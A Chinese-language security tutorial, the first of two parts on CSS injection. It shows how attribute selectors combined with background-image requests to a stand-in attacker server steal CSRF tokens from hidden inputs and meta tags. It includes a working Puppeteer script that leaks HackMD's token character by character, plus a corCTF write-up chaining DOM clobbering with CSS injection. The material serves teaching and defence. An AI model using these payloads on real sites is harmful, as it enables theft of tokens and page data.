

# 只用 CSS 也能攻擊？CSS injection（上）

前面我們看的幾個攻擊例如說 Prototype Pollution 或是 DOM clobbering，都是藉由各種方式去影響 JavaScript 的執行，讓 JavaScript 的執行出現意料之外的結果。換句話說，最後造成影響力的還是 JavaScript。

而接下來我們就要看幾個「完全不需要 JavaScript」也能造成影響力的攻擊方式了，第一個就是這篇要講的 CSS injection。

如果有寫過前端的話，你可能已經知道 CSS 是個很神奇的東西了，例如說你可以用純 CSS 寫出：

1. [圈圈叉叉](https://codepen.io/alvaromontoro/pen/vwjBqz)
2. [彈幕遊戲](https://codepen.io/i0z/pen/AwYbda)
3. [3D 遊戲](https://garethheyes.co.uk/)

是的，你沒有看錯，真的是純 CSS 加上 HTML，完全沒有任何一行的 JavaScript，CSS 就是這麼神奇。

如此神奇的 CSS 拿來當作攻擊的手段，可以達到什麼樣的效果呢？就讓我們繼續看下去。

## 什麼是 CSS injection？

顧名思義，CSS injection 代表的是在一個頁面上可以插入任何的 CSS 語法，或是講得更明確一點，可以使用 `<style>` 這個標籤。你可能會好奇，為什麼會有這種狀況？

我自己認為常見的狀況有兩個，第一個是網站有過濾掉許多標籤，但不覺得 `<style>` 有問題，所以沒有過濾掉。像是之前提過用來做 sanitize 的 DOMPurify，雖然說預設就會把各種危險的標籤全都過濾掉，只留下一些安全的，例如說 `<h1>` 或是 `<p>` 這種，但重點是 `<style>` 也在預設的安全標籤裡面，所以如果沒有特別指定參數，在預設的狀況下，`<style>` 是不會被過濾掉的，因此攻擊者就可以注入 CSS。

第二種狀況則是雖然可以插入 HTML，但是由於 CSP 的緣故，沒有辦法執行 JavaScript。既然沒辦法執行 JavaScript，就只能退而求其次，看看有沒有辦法利用 CSS 做出一些惡意行為。

那到底有了 CSS injection 之後可以幹嘛？CSS 不是拿來裝飾網頁用的而已嗎？難道幫網頁的背景換顏色也可以是一個攻擊手法？

## 利用 CSS 偷資料

CSS 確實是拿來裝飾網頁用的，但是只要結合兩個特性，就可以使用 CSS 來偷資料。

第一個特性：屬性選擇器。

在 CSS 當中，有幾個選擇器可以選到「屬性符合某個條件的元素」。舉例來說，`input[value^=a]`，就可以選到 value 開頭是 `a` 的元素。

類似的選擇器有：

1. `input[value^=a]` 開頭是 a 的（prefix）
2. `input[value$=a]` 結尾是 a 的（suffix）
3. `input[value*=a]` 內容有 a 的（contains）

而第二個特性是：可以利用 CSS 發出 request，例如說載入一張伺服器上的背景圖片，本質上就是在發一個 request。

假設現在頁面上有一段內容是 `<input name="secret" value="abc123">`，而我能夠插入任何的 CSS，就可以這樣寫：

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

會發生什麼事情？

因為第一條規則有順利找到對應的元素，所以 input 的背景就會是一張伺服器上的圖片，而瀏覽器就會發 request 到 `https://myserver.com?q=a`。

因此，當我在 server 收到這個 request 的時候，我就知道「input 的 value 屬性，第一個字元是 a」，就順利偷到了第一個字元。

這就是 CSS 之所以可以偷資料的原因，透過屬性選擇器加上載入圖片這兩個功能，就能夠讓 server 知道頁面上某個元素的屬性值是什麼。

好，現在確認 CSS 可以偷屬性的值了，接下來有兩個問題：

1. 有什麼東西好偷？
2. 你剛只示範偷第一個，要怎麼偷第二個字元？

我們先來討論第一個問題，有哪些東西可以偷？通常都是要偷一些敏感資料對吧？

最常見的目標，就是 CSRF token。如果你不知道什麼是 CSRF，這個我之後的文章會再提到。

簡單來說呢，如果 CSRF token 被偷走，就有可能會被 CSRF 攻擊，總之你就想成這個 token 很重要就是了。而這個 CSRF token，通常都會被放在一個 hidden input 中，像是這樣：

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

我們該怎麼偷到裡面的資料呢？

## 偷 hidden input

對於 hidden input 來說，照我們之前那樣寫是沒有效果的：

``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

因為 input 的 type 是 hidden，所以這個元素不會顯示在畫面上，既然不會顯示，那瀏覽器就沒有必要載入背景圖片，因此 server 不會收到任何 request。而這個限制非常嚴格，就算用 `display:block !important;` 也沒辦法蓋過去。

該怎麼辦呢？沒關係，我們還有別的選擇器，像是這樣：

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

最後面多了一個 `+ input`，這個加號是另外一個選擇器，意思是「選到後面的元素」，所以整個選擇器合在一起，就是「我要選 name 是 csrf-token，value 開頭是 a 的 input，的後面那個 input」，也就是 `<input name="username">`。

所以，真正載入背景圖片的其實是別的元素，而別的元素並沒有 type=hidden，所以圖片會被正常載入。

那如果後面沒有其他元素怎麼辦？像是這樣：

``` html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```

以這個案例來說，在以前就真的玩完了，因為 CSS 並沒有可以選到「前面的元素」的選擇器，所以真的束手無策。

但現在不一樣了，因為我們有了 [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has)，這個選擇器可以選到「底下符合特殊條件的元素」，像這樣：

``` css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

意思就是我要選到「底下有（符合那個條件的 input）的 form」，所以最後載入背景的會是 form，一樣也不是那個 hidden input。這個 `:has` 選擇器很新，從 2022 年 8 月底釋出的 Chrome 105 才開始正式支援，目前只剩下 Firefox 的穩定版還沒支援了，詳情可看：[caniuse](https://caniuse.com/css-has)


有了 `:has` 以後，基本上就無敵了，因為可以指定改變背景的是哪個父元素，所以想怎麼選就怎麼選，怎樣都選得到。

## 偷 meta

除了把資料放在 hidden input 以外，也有些網站會把資料放在 `<meta>` 裡面，例如說 `<meta name="csrf-token" content="abc123">`，meta 這個元素一樣是看不見的元素，要怎麼偷呢？

首先，如同上個段落的結尾講的一樣，`has` 是絕對偷得到的，可以這樣偷：

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

但除此之外，還有其他方式也偷得到。

`<meta>` 雖然也看不到，但跟 hidden input 不同，我們可以自己用 CSS 讓這個元素變成可見：

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```


可是這樣還不夠，你會發現 request 還是沒有送出，這是因為 `<meta>` 在 `<head>` 底下，而 `<head>` 也有預設的 `display:none` 屬性，因此也要幫 `<head>` 特別設置，才會讓 `<meta>`「能被看到」：

``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

照上面這樣寫，就會看到瀏覽器發出 request。不過，畫面上倒是沒有顯示任何東西，因為畢竟 `content` 是一個屬性，而不是 HTML 的 text node，所以不會顯示在畫面上，但是 `meta` 這個元素本身其實是看得到的，這也是為什麼 request 會發出去：


如果真的想要在畫面上顯示 content 的話，其實也做得到，可以利用偽元素搭配 `attr`：

``` css
meta:before {
    content: attr(content);
}
```

就會看到 meta 裡面的內容顯示在畫面上了。

最後，讓我們來看一個實際案例。

## 偷 HackMD 的資料

HackMD 的 CSRF token 放在兩個地方，一個是 hidden input，另一個是 meta，內容如下：

``` html
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```

而 HackMD 其實支援 `<style>` 的使用，這個標籤不會被過濾掉，所以你是可以寫任何的 style 的，而相關的 CSP 如下：

```
img-src * data:;
style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com https://fonts.gstatic.com https://*.disquscdn.com;
font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com; 
```

可以看到 `unsafe-inline` 是允許的，所以可以插入任何的 CSS。

確認可以插入 CSS 以後，就可以開始來準備偷資料了。還記得前面有一個問題沒有回答，那就是「該怎麼偷第一個以後的字元？」，我先以 HackMD 為例回答。

首先，CSRF token 這種東西通常重新整理就會換一個，所以不能重新整理，而 HackMD 剛好支援即時更新，只要內容變了，會立刻反映在其他 client 的畫面上，因此可以做到「不重新整理而更新 style」，流程是這樣的：

1. 準備好偷第一個字元的 style，插入到 HackMD 裡面
2. 受害者打開頁面
3. 伺服器收到第一個字元的 request
4. 從伺服器更新 HackMD 內容，換成偷第二個字元的 payload
5. 受害者頁面即時更新，載入新的 style
6. 伺服器收到第二個字元的 request
7. 不斷循環直到偷完所有字元

簡單的示意圖如下：



程式碼如下：

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

可以直接用 Node.js 跑起來，跑起來以後在瀏覽器打開相對應的文件，就可以在 terminal 看到 leak 的進度。

不過呢，就算偷到了 HackMD 的 CSRF token，依然還是沒辦法 CSRF，因為 HackMD 有在 server 檢查其他的 HTTP request header 如 origin 或是 referer 等等，確保 request 來自合法的地方。

## CSS injection 與其他漏洞的組合技

在資安的世界中，創意跟想像力是很重要的，有時候幾個小的漏洞串起來，就能提升嚴重程度。而這次要分享的是一道 CTF 的題目，結合了 CSS injection 跟另外一個漏洞，我覺得滿有趣的。


要攻擊的對象是一個用 React 寫的部落格網站，目標則是成功偷取 `/home` 頁面的資料。你可以新增文章，而文章的內容會透過底下的方式渲染出來：

``` html
<div dangerouslySetInnerHTML={{ __html: body }}></div>
```

以前有提過現代的前端框架都會自動把輸出做編碼，不用擔心 XSS 問題。而 `dangerouslySetInnerHTML` 在 React 中的意思就是：「沒關係，直接設置 `innerHTML` 就好」，所以這邊可以插入任何 HTML，但問題是 CSP 規則：`script-src 'self'; object-src 'none'; base-uri 'none';`。

這個規則是十分嚴格的，`script` 只能從 same-origin 載入，而其他例如說 style 則沒有任何限制。很顯然的，我們可以用 CSS injection 偷取頁面上的資料。

可是又有一個問題，文章的 URL 是 `/posts/:id`，而我們要偷的資料在 `/home`，CSS 是影響不到其他頁面的。就算我們可以用 iframe 嵌入 `/home` 頁面，也沒辦法在這頁面上放入 style。

這該怎麼辦呢？

此時我想到了一招，那就是 iframe 元素搭配 srcdoc 可以新建一個頁面，那我們可以在這個 iframe 裡面重新再 render 一次 React App：

``` html
<iframe srcdoc="
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

不過 console 卻出現了與 react-router 有關的錯誤：


> DOMException: Failed to execute ‘replaceState’ on ‘History’: A history state object with URL ‘about:srcdoc’ cannot be created in a document with origin ‘http://localhost:8080‘ and URL ‘about:srcdoc’.

react-router 是一套拿來做前端路由的函式庫，基本的用法長得像這樣，會寫說哪個路徑對應到哪個元件：

``` js
ReactDOM.createRoot(document.getElementById('root')).render(
  <React.StrictMode>
    <ChakraProvider>
      <BrowserRouter>
        <Routes>
          <Route path="/" element={<Index />} />
          <Route path="/register" element={<Register />} />
          <Route path="/login" element={<Login />} />
          <Route path="/home" element={<Home />} />
          <Route path="/post/:id" element={<Post />} />
        </Routes>
      </BrowserRouter>
    </ChakraProvider>
  </React.StrictMode>
);
```

你有沒有好奇過，它是怎麼決定現在的路徑的？若是實際去看 [createBrowserHistory](https://github.com/remix-run/history/blob/dev/packages/history/index.ts#L364) 的程式碼，可以看到底下這段：

``` js
export function createBrowserHistory(
  options: BrowserHistoryOptions = {}
): BrowserHistory {
  let { window = document.defaultView! } = options;
  let globalHistory = window.history;

  function getIndexAndLocation(): [number, Location] {
    let { pathname, search, hash } = window.location;
    // ...
  }

  // ...
}
```

它最後是用 `window.location.pathname` 決定的，而重點是這個 `window` 是從 `document.defaultView` 來的，簡而言之就是 `document.defaultView.location.pathname`

這代表什麼呢？代表我們可以用 DOM clobbering 覆蓋它！

之前講到 DOM clobbering 有說過我們沒辦法覆蓋已經存在的 window 屬性，所以像 `window.location` 就無法蓋掉。可是 `document` 就不一樣了，我們是可以蓋掉 `document` 的。

如果在頁面上放了一個 `<iframe name=defaultView src="/home">`，那 `document.defaultView` 就會是這個 iframe 的 contentWindow，而這邊的 src 是同源的 `/home`，所以可以存取 `document.defaultView.location.pathname`，就拿到了 `/home` 頁面的 pathname，在 iframe 裡面渲染了 home 頁面的內容。

如此一來，就可以跟前面發現的 CSS injection 做結合，範例如下：

``` html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

介面會長這樣：


我們在 iframe 的 srcdoc 裡面重新渲染了一個 React app，而且透過 DOM clobbering 讓這個 React app 渲染了別的頁面，就能夠透過 CSS injection 偷取資料，達成我們的目的。

本題出自 corCTF 2022 的 modernblog，想看更多細節可以參考我之前寫的英文詳解：[corCTF 2022 writeup - modernblog](https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/)

## 小結

在這篇裡面，我們看到了之所以可以用 CSS 來偷資料的原理，說穿了就是利用「屬性選擇器」再加上「載入圖片」這兩個簡單的功能，也示範了如何偷取 hidden input 跟 meta 裡的資料，並且以 HackMD當作實際案例說明。

但是呢，有幾個問題我們還沒解決，像是：

1. HackMD 因為可以即時同步內容，所以不需要重新整理就可以載入新的 style，那其他網站呢？該怎麼偷到第二個以後的字元？
2. 一次只能偷一個字元的話，是不是要偷很久呢？這在實際上可行嗎？
3. 有沒有辦法偷到屬性以外的東西？例如說頁面上的文字內容，或甚至是 JavaScript 的程式碼？
4. 針對這個攻擊手法的防禦方式有哪些？

這些問題，會在下一篇裡面一一解答。

